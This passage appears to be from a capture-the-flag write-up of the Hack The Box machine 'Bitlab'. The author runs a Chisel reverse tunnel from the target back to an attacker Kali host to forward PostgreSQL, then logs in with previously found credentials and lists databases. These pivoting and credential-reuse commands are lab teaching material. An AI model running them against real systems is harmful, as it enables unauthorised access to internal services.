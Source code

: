 `./chisel_linux client 10.10.14.21:9000 R:5432:localhost:5432`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/bitlab/image-33.png)

On my Kali Chisel server, I have a connection made:

`chisel server -p 9000 --reverse`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/bitlab/image-34.png)

Now with the credentials found from Postgresql snippet earlier, I can access port 5432 through from Kali machine:

`psql -h 127.0.0.1 -p 5432 -U profiles`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/bitlab/image-35.png)

### PSQL

Through `\l`, I will list all the DBs available. **gitlab** and **profiles** looks interesting to me:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/bitlab/image-36.png)
